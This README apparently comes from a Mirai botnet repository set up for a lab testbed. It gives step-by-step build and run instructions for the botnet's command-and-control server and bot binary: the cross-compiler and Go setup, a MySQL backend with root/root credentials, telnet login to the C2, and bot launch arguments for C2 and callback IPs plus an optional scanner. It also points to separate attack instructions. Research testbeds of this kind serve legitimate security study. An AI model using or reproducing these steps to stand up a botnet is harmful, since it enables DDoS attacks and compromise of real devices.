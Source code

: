 # Setup Instructions (for x86/x64 bot)

### For NCL
We'll need to update the `sources.list` to get `apt-get` working (only applies to cnc). 

1. go to `/etc/apt`
2. rename `sources.list` to `sources.list.bak`
3. create a new `sources.list` and add the following lines to it
  ```
  ###### Ubuntu Main Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 

  ###### Ubuntu Update Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  ```
4. now `apt-get` should work

### Installation Instructions for Running cnc (assumes you have already built it)
1. install mysql: `sudo apt-get install mysql-server mysql-client`
  * make sure you set the root password as `root` during the installation
2. run [scripts/db.sql](scripts/db.sql) in the mysql shell
  ```
  <in the scripts folder>
  $ mysql -u root -p
  <enter password>
  
  source db.sql;
  \q
  ```
3. to make sure you are not kicked out of the session, add these two lines under the `[mysqld]` section in `/etc/mysql/my.cnf` (you will probably need root access)
  ```
  [mysqld]
  
  ...
  
  wait_timeout = 86400
  interactive_timeout = 86400
  ```
4. restart mysql: `sudo service mysql restart`
5. run the cnc: `sudo ./cnc`
6. in order to access the cnc, use `telnet localhost` (assumes you are telnet-ing on the cnc machine)
7. use `username: root` and `password: root` to login (as defined in [scripts/db.sql](scripts/db.sql))
8. refer to [attack-instructions.md](attack-instructions.md) for how to launch an attack

### Instructions for Running bot (assumes you have already built it)
1. run the bot: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>` (assumes you have built the debug version)
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 0`
  * you can use [mirai/demo-bot.sh](mirai/demo-bot.sh) that automatically finds the ip address of eth0 (be sure to change the hardcoded cnc and callback ip addresses)

### Installation Instructions for Building
1. install golang
  ```
  $ sudo add-apt-repository ppa:ubuntu-lxc/lxd-stable
  $ sudo apt-get update
  $ sudo apt-get install golang
  ```
2. run [scripts/cross-compile.sh](scripts/cross-compile.sh) (needs root)
3. add export paths in `~/.bashrc` (you may need to restart bash after this step)
  ```
  add the following lines:
  export PATH=$PATH:/etc/xcompile/i586/bin
  export PATH=$PATH:/etc/xcompile/armv6l/bin
  export PATH=$PATH:/usr/lib/go/bin
  export GOPATH=$HOME/Documents/go
  ```
4. install git: `sudo apt-get install git`
5. install go packages
  * `go get github.com/go-sql-driver/mysql`
  * `go get github.com/mattn/go-shellwords`
5.1. If you get a "package context: unrecognized import path "context" error in Step 5:
  ```
  sudo apt-get purge golang*
  sudo rm -rf /usr/lib/go-1.6/ /usr/lib/go-1.6/src/ /usr/lib/go-1.6/src/runtime/ /usr/lib/go-1.6/src/runtime/race
  curl -O https://storage.googleapis.com/golang/go1.11.1.linux-amd64.tar.gz
  sudo tar -C /usr/local -xzf go1.11.1.linux-amd64.tar.gz
  mkdir -p ~/go; echo "export GOPATH=$HOME/go" >> ~/.bashrc
  echo "export PATH=$PATH:$HOME/go/bin:/usr/local/go/bin" >> ~/.bashrc
  source ~/.bashrc
  ```
7. build using [mirai/build.sh](mirai/build.sh)
  * e.g. `mirai/build.sh debug telnet`
  * only the debug, telnet version has been tested
  * output files will be in the `debug` folder, with `cnc` and `mirai.dbg` (the bot)
